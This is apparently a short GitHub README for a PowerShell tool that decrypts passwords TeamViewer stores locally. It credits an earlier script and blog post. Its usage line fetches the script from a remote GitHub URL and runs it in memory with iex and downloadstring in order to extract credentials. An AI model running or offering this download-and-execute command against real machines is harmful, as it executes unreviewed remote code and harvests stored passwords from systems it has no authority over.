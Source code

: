 # TeamViewerDecrypt - Powershell

Just a quick dirty Powershell implementation of [whynotsecurity](https://github.com/whynotsecurity/)´s Teamviewer decrypt script.

All credit goes to him, blog post can be found here: https://whynotsecurity.com/blog/teamviewer/

Not all passwords in every version can be decrypted using this script. I could not decrypt Teamviewer v14/v15 PermanentPasswords so far.

Usage as simple as:
iex (new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/TeamViewerDecrypt/master/TeamViewerDecrypt.ps1');TeamviewerDecrypt


As always only use for educational or pentesting purposes. :)
